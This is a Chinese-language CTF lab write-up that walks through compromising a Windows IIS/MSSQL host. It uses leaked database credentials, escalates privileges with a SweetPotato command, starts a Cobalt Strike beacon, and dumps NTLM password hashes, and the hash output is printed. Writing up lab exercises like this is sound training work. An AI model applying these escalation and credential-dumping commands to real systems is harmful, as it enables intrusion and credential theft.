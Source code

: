 扫描 发现是 IIS 服务 

然后扫描到 MSSQL 密码泄露

我们使用 MDUT 连接上去

##  flag01
连接上来

4 个模式，经过测试 SpOA 可以执行命令 

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754280363704-8ed08222-77b9-4651-bff6-486cd1f82e7d.png)

当前权限过低什么也操作不了，上传土豆

提权到 system

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754280829271-eb8de10d-2fd3-4878-9d2a-85bc8c8516a9.png)

有权限了，先读取这个机器的 flag

```python
C:/迅雷下载/SweetPotato.exe -a "type C:\Users\Administrator\flag\flag01.txt"
```

结果如下 

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754280897682-c135bd83-8927-44e6-b87c-95cca6d7aff0.png)

继续渗透 

## flag02
根据题目要求我们上线 CS，用 system 权限给，不然什么也干不了

```python
C:/迅雷下载/SweetPotato.exe -a "C:/Users/Public/beacon.exe"
```

ok 成功上线

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754282849749-6c91cc78-743e-419c-9c89-87cbc2a04b3c.png)

我们获取一下信息和随便测一下

我们在 CS 中执行

```python
hashdump
```

最后结果如下

```python
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2caf35bb4c5059a3d50599844e2b9b1f:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John:1008:aad3b435b51404eeaad3b435b51404ee:eec9381b043f098b011be51622282027:::

```
